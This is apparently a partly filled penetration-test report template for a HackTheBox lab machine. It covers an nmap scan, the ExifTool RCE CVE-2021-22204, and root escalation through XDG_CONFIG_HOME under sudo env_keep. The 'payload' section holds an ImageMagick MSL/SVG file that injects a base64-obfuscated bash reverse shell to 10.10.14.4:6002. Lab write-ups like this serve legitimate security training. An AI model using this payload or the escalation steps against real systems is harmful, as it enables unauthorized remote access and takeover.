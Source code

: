 ## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to **X** out of the **X** systems.

### System IP: 10.10.11.140

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

| Server IP Address | Ports Open      |
| ----------------- | --------------- |
| 10.10.11.140      | **TCP**: 22,80\ |

**Nmap Scan Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



*Initial Shell Vulnerability Exploited*

exiftools rce 

[CVE-2021-22204-exiftool]:https://github.com/convisolabs/CVE-2021-22204-exiftool

*Additional info about where the initial shell was acquired from*

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Proof of Concept Code Here:**

**Local.txt Proof Screenshot**

![image-20221221185720382](D:\OSCP\hackthebox\attachments\image-20221221185720382.png)

**Local.txt Contents**

#### Lateral Movement

```
pspy64 to scan the process
```

#### payload

```xml
<image authenticate='ff" `echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgJj4vZGV2L3Rjc
C8xMC4xMC4xNC40LzYwMDIgMD4mMScK | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="
http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

#### proof

![image-20221221191420241](D:\OSCP\hackthebox\attachments\image-20221221191420241.png)

#### Privilege Escalation

*Additional Priv Esc info*

XDG_CONFIG_HOME is env_keep, so modify it to the thomas home directory and create an config file consist exec command

![image-20221221192852229](D:\OSCP\hackthebox\attachments\image-20221221192852229.png)

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

exec /bin/bash

**Proof Screenshot Here:**